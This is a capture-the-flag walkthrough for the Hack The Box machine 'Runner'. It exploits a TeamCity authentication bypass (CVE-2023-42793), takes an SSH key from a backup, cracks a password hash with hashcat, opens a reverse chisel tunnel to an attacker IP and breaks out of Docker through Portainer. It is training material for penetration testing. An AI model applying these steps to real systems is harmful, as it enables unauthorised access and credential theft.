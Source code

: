 ```yaml
---
date: 2025-03-10
categories: [CTF, HTB]
title: "HTB - Runner"
tags: ['docker breakout', 'gobuster', 'hashcat', 'john the ripper', 'nmap', 'privilege escalation', 'python', 'rce']

description: "Runner - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Runner

NMAP

![image1](../resources/db64cfd7060742f5a7f99337ca6c28ad.png)
 
Add runner.htb to /etc/hosts

**<u>Subdomain enum</u>**

```bash
gobuster vhost -u http://runner.htb -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -t 64 --append-domain
```

![image2](../resources/dc4bd259b7c04114904e4be0c5d6afb1.png)

Add teamcity.runner.htb to /etc/hosts

We get a login page

![image3](../resources/022a3d85a6464e478ad23deb5adfebc4.png)

- There is an auth bypass exploit for this version of TeamCity (v.2023.05.3):
<https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis?referrer=etrblog#:~:text=/RPC2.-,Exploitation,-To%20leverage%20the>

- This github has a python script to exploit this automatically:
<https://github.com/H454NSec/CVE-2023-42793>


![image4](../resources/03344a5b772d416986bbde0855748ac8.png)


![image5](../resources/4bc1532288334ce5ae8225bf23f7fc96.png)

- Login to teamcity with the credentials:

![image6](../resources/d6c59b1915c84aee9d010000ab368c83.png)


![image7](../resources/7392b03380104b0a80347948b34443f3.png)

- We have a backup tab in the admin console
- Click start backup, and then click the link to download the zip file:

![image8](../resources/abb142acf59440f68016472023e2e0cf.png)

- If we do **tree** on the extracted zip, we can see a private ssh key:

![image9](../resources/231d1ff6067d4b4885b900d4c68cedac.png)

or using find and searching for key words:


![image10](../resources/afddb230305d4ad5937ec3b508cbdc06.png)

```bash
chmod 600 id_rsa

```
- Find the username:

```bash
grep -rnwi . -e "username"

```

![image11](../resources/158fd574c1d04634b3524cf3ef4d969a.png)

```bash
ssh -i id_rsa john@10.129.78.6

```

![image12](../resources/bbc52bd33365498cb8344df78003c160.png)

```bash
cat user.txt

```
- We also have a database dump in the backup file:

![image13](../resources/da9d717a54594475a708d47350651517.png)

- Here we have a users file with hashes:

![image14](../resources/4e1ed7c775904590995a00f1e5da1404.png)

- We can crack the hash for Matthew:

```bash
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

```

![image15](../resources/2abafd846adc47ea8cf0f53c2fc7da5c.png)

**Matthew : piper123**

- Upload LinPEAS
From Linpeas we can see docker being used and portainer is running, as well as port 9000 is open (which is normally used by docker)

- Upload chisel and run:

```bash
./chisel client 10.10.14.29:8888 R:socks &

```
- Browse to 127.0.0.1:9000

![image16](../resources/41823f19e05e49c48217de69ac53e0f1.png)

- Log in with the matthew credentials

- We have some images available:

![image17](../resources/09ac30cf8b044d0f89cff0b61956208c.png)

- First thing is to create a volume - with the following volume options:

![image18](../resources/3c443b176d6642f2987ef56e488b4dd0.png)

To add volume options - Click on add driver option


![image19](../resources/56cc3a8594884af8bf91be83579d97fa.png)

- Now we can create a container to map the volume to:
Click on:


![image20](../resources/51037eadada94d109e01f77dbcb2d2e2.png)

Find any of the available images and put the name in:


![image21](../resources/5724674567ca4f9aabc37adf95fad26b.png)

Command and Logging - Interactive:


![image22](../resources/51b34e39ce0d46feb7984a54f3a960b5.png)

And in Volumes:


![image23](../resources/a2fb79f1bc6349f29dad0295096f0d53.png)

- Now deploy container

- We can now click out and back in to the container we made, and console in:

![image24](../resources/2755b95783ba4426806df6ba4ae5ce45.png)

- Now we can console into it and look in /mnt/root/root:

![image25](../resources/7182ec97d0cd490c95254ce030bca17c.png)